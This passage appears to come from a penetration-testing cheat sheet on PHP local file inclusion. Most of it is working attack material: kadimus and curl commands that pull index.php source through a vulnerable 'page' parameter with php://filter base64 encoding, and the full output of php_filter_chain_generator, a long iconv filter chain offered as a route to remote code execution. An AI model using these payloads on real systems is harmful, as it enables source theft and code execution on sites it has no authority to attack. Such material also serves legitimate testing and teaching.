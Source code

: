 ```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```

Also there is a way to turn the `php://filter` into a full RCE. 

* [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) - A CLI to generate PHP filters chain
  ```powershell
  $ python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
  [+] The following gadget chain will generate the following code : <?php phpinfo();?> (base64 value: PD9waHAgcGhwaW5mbygpOz8+)
  php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UCS-2.UTF8|convert.iconv.L6.UTF8|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
  ```
